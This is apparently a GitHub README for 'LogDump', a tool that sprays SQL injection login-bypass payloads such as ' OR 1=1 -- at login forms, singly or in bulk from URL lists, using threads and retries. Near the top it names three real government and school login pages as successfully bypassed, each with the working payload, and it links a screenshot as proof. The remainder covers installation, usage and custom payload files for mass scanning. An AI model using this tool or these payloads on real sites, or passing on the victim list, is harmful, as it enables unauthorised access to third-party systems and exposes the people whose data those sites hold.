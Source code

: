 # LogDump

**LogDump** is an automated SQL injection testing tool designed to test login pages for vulnerabilities. It sends injection payloads into the username and password fields to check for potential security flaws. The tool supports both single URL testing and testing multiple URLs from a file, with logging, retry mechanisms, and multi-threading for improved performance.
# Vuln Link:
              Login found: http://ptsp.pt-nad.go.id/aipda/page/login.php with payload: ' OR 1=1 -- - ' or 1=1 limit 1 -- -+
              Login found: https://www.eapus.pn-sinabang.go.id/login.php with payload: ' OR 1=1 -- - ' or 1=1 limit 1 -- -+
              Login found: https://flipbook.smpn1blimbingsari.sch.id/login.php with payload: ' OR 1=1 -- - ' or 1=1 limit 1 -- -+

# Login Found Pict:
                    https://i.postimg.cc/k4dYyBT0/logon.png
              
              
## Features

- **Automated SQL Injection Testing:** Test login pages with a variety of payloads to check for vulnerabilities.
- **Single URL Testing:** Test one URL at a time.
- **Multiple URL Testing:** Test multiple URLs from a file, with optional URL filtering based on keywords.
- **Logging:** Logs results of successful and failed injection attempts into separate log files.
- **Exponential Backoff Retry:** Automatically retries failed requests with an increasing delay.
- **Multi-threading:** Performs concurrent tests on multiple URLs and payloads for faster results.
- **Customizable Fields:** Allows customization of the username and password field names.

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/HackfutSec/LogDump.git
   ```

2. Navigate to the project directory:

   ```bash
   cd LogDump
   ```

3. Install the required dependencies:

   ```bash
   pip install -r requirements.txt
   ```

   If you don't have a `requirements.txt`, you can install the required libraries manually:

   ```bash
   pip install requests
   ```

## Usage

### 1. Test a Single URL

To test a single login URL, run the program and provide the URL when prompted:

```bash
python logdump.py
```

You will be asked to enter:

- **Username field name** (default: `username`)
- **Password field name** (default: `password`)
- **URL** to test

The program will attempt to bypass the login using a series of payloads and log the results.

### 2. Test Multiple URLs from a File

To test multiple URLs, the program will ask for the path to a file containing the URLs you want to test.

- URLs will be filtered based on keywords you provide (optional).
- The results will be logged and saved in the `results.txt` file.

```bash
python logdump.py
```

When prompted, enter:

- **File path** containing URLs to test.
- **Keywords** to filter URLs (optional).

### Logs

- **`success_injections.log`**: Logs successful injection attempts.
- **`error_injections.log`**: Logs errors or failed attempts.
- **`test_injections.log`**: General logs, including retries and requests.

The results of successful logins are also saved in a text file (`results.txt`).

### Custom Payloads

You can add custom payloads by editing the `payloads.json` file. This file should contain a list of payload strings, such as:

```json
[
    "' OR 1=1 --",
    "' OR 'a'='a",
    "' OR 1=1#"
]
```

## Configuration

You can customize the program by modifying the following parameters:

- **Username field name** and **Password field name**: Set default field names for the login form (default: `username`, `password`).
- **Payload file**: The default payload file is `payloads.json`. You can replace or modify it to suit your needs.

## Example

### Running the program with a single URL:

```bash
$ python logdump.py
Enter the URL to test (e.g., http://example.com/login.php): http://example.com/login.php
Enter the username field name (default 'username'): 
Enter the password field name (default 'password'): 
Testing with payload: ' OR 1=1 --
Testing with payload: ' OR 'a'='a
Login found with payload: ' OR 1=1 -- on URL http://example.com/login.php
Login found: http://example.com/login.php with payload: ' OR 1=1 --
```

### Running the program with multiple URLs from a file:

```bash
$ python logdump.py
Enter the path to the file containing the URLs to test: urls.txt
Enter the keywords to filter URLs (separated by commas): admin,login
```

## Logging

- **Success logs**: All successful injection attempts are logged in `success_injections.log`.
- **Error logs**: Errors, such as network issues or invalid responses, are logged in `error_injections.log`.
- **General logs**: General information, including retries, are stored in `test_injections.log`.

## Dependencies

- `requests`: A simple HTTP library for making requests.
- `concurrent.futures`: For multi-threading to run tests concurrently.

## Contributing

Contributions are welcome! Feel free to fork the repository, open issues, and submit pull requests.

### Steps to Contribute:

1. Fork this repository.
2. Create a new branch (`git checkout -b feature-name`).
3. Make your changes.
4. Commit your changes (`git commit -am 'Add new feature'`).
5. Push to the branch (`git push origin feature-name`).
6. Create a pull request.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
